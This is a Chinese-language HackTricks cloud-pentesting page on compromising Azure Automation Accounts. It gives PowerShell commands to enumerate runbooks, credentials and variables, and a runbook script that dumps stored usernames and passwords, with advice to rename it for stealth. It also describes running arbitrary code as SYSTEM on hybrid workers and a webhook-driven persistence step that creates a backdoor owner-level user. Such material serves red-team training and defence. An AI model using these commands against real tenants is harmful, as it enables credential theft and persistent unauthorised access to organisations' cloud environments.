 # Az - 自动化账户

<details>

<summary><strong>从零开始学习AWS黑客攻击直到成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

Azure Automation提供了一个基于云的自动化、操作系统更新和配置服务，支持跨Azure和非Azure环境的一致性管理。它包括流程自动化、配置管理、更新管理、共享功能和异构特性。

这些类似于Azure中的“**计划任务**”，将允许您执行事物（动作或脚本）来**管理**、检查和配置**Azure环境**。

### 运行账户

使用**运行账户**时，它会创建一个带有自签名证书的Azure AD **应用程序**，创建一个**服务主体**并为当前订阅中的账户分配**贡献者**角色（许多权限）。\
Microsoft建议对自动化账户使用**托管身份**。

{% hint style="warning" %}
这将在**2023年9月30日被移除并更改为托管身份。**
{% endhint %}

## 妥协Runbooks和作业

**Runbooks**允许您**执行任意PowerShell**代码。这可能被攻击者**滥用**，以窃取**附加主体**的权限（如果有的话）。\
在**Runbooks**的**代码**中，您还可能找到**敏感信息**（如凭据）。

如果您能够**读取**作业，请这样做，因为它们**包含**运行的**输出**（潜在的**敏感信息**）。

转到 `Automation Accounts` --> `<Select Automation Account>` --> `Runbooks/Jobs/Hybrid worker groups/Watcher tasks/credentials/variables/certificates/connections`

### 混合工作人员

Runbook可以在**Azure内部的容器**中运行，也可以在**混合工作人员**中运行。\
**Log Analytics Agent**部署在VM上，以将其注册为混合工作人员。\
混合工作人员作业在Windows上以**SYSTEM**身份运行，在Linux上以**nxautomation**账户运行。\
每个混合工作人员都注册在一个**混合工作人员组**中。

因此，如果您可以选择在**Windows混合工作人员**中运行**Runbook**，您将以**System**身份在该机器内执行**任意命令**。

## 妥协状态配置（SC）

Azure Automation **状态配置**是一项Azure配置管理服务，允许您编写、管理和编译PowerShell期望状态配置（DSC）[配置](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations)用于任何云或本地数据中心的节点。该服务还导入[DSC资源](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources)，并将配置分配给目标节点，所有这些都在云中完成。您可以通过在Azure门户中选择**状态配置（DSC）**下的**配置管理**来访问Azure Automation状态配置。

这些配置中可能会发现**敏感信息**。

### RCE

可以滥用SC在受管理的机器上运行任意脚本。

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## 枚举

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
### 创建 Runbook

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
### 利用运行簿从自动化账户中提取凭证和变量
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% hint style="info" %}
您也可以通过修改现有的 Run Book 并从网络控制台进行同样的操作。
{% endhint %}

## 持久性

### 创建高权限用户的自动化

* 创建一个新的自动化账户
* "创建 Azure Run As 账户"：是
* 导入一个新的 runbook，用于创建具有订阅所有者权限的 AzureAD 用户
* 此博客的示例 runbook 位于此处 - [https://github.com/NetSPI/MicroBurst](https://github.com/NetSPI/MicroBurst)
* 发布 runbook
* 为 runbook 添加一个 webhook
* 为自动化账户添加 AzureAD 模块
* 更新 Azure 自动化模块
* 为自动化账户分配 "用户管理员" 和 "订阅所有者" 权限
* 最终失去您的访问权限...
*   触发 webhook，通过 post 请求创建新用户

```powershell
$uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
$AccountInfo  = @(@{RequestBody=@{Username="BackdoorUsername";Password="BackdoorPassword"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```

## 参考资料

* [https://learn.microsoft.com/en-us/azure/automation/overview](https://learn.microsoft.com/en-us/azure/automation/overview)
* [https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> 从零开始学习 AWS 黑客攻击！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您希望在 HackTricks 中看到您的**公司广告**或**下载 HackTricks 的 PDF 版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>
